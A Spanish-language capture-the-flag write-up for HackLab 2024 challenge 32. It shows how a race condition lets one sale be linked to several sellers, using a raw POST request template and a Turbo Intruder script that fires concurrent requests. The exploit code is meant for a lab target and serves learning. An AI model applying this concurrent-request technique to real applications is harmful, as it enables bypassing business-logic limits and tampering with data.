





# Desafío 32 - El analista (HackLab 2024)

Condiciones de carrera 
Desafío 32 - El analista (HackLab 2024) 
 
Estructura JSON: En el análisis, notamos que no existe un campo que asocie directamente 
a un vendedor con una venta. Sin embargo, ambos tienen un campo booleano llamado 
asociado (para ventas) y asociado (para vendedores). Esto sugiere que el servidor verifica 
si una venta está asociada a un vendedor, pero no establece una relación directa entre 
ellos. Interacción con la aplicación: Identificamos un botón “Asociar” que permite seleccionar 
una venta y un vendedor mediante menús desplegables. Al enviar una solicitud POST a 
/asociar, se recibe la respuesta “Venta asociada al vendedor” si la operación es exitosa 
 
Como el desafío no permite asociar una venta a más de un usuario, la forma de resolver 
esto es realizando peticiones concurrentes. Entonces utilizamos turbo intruder para poder 
hacer eso(hay que descargar la extensión) 
 
Enviamos la petición de Asociar al turbo intruder y modificamos lo siguiente 
 
 
POST /asociar/ HTTP/2 
Host: [tu host aquí] 
Content-Type: application/json 
Content-Length: 34  
 
 
{"id_venta":"%s","id_vendedor":"%s"}  
 
MUY IMPORTANTE EL %s para la sintaxis. Se utiliza cuando queres que algo se modifique 
sobre ese valor.

Acá nos muestra un código por defecto el cual le explicamos a la IA para que nos genere 
uno que resuelva el problema

EL CÓDIGO CORRECTO ES ESTE. OCUPAR EN MULTIPLE PARAMETERS 
 
def queueRequests(target, wordlists): 
    # Inicialización del motor (la que funciona en tu versión) 
    engine = RequestEngine(endpoint=target.endpoint, 
                            concurrentConnections=5, 
                            requestsPerConnection=100, 
                            pipeline=False, 
                            engine=Engine.THREADED) 
     
    # --- Definimos las listas de IDs como variables locales (ESTO ES LA CLAVE) --- 
    # Es crucial que los IDs sean strings ('1', '2', etc.) 
    ventas = ['1', '2', '3', '4']        
    vendedores = ['1', '2', '3']     
     
    # --- Bucle para generar las 12 combinaciones (Cluster Bomb) --- 
    for vendedor in vendedores: 
        for venta in ventas: 
             
            # El array [venta, vendedor] reemplaza los dos %s en la petición HTTP. 
            # El primer %s -> 'venta', el segundo %s -> 'vendedor'. 
            payloads = [venta, vendedor] 
             
            # El método .queue() encola la petición con el array de payloads 
            engine.queue(target.req, payloads) 
 
 
def handleResponse(req, interesting): 
    # Solo añadimos a la tabla los que resultaron en éxito (código 200) 
    if req.response_status == 200: 
        table.add(req) 
 
 
db1ab6987f0624b58ae72fa69aba4d14

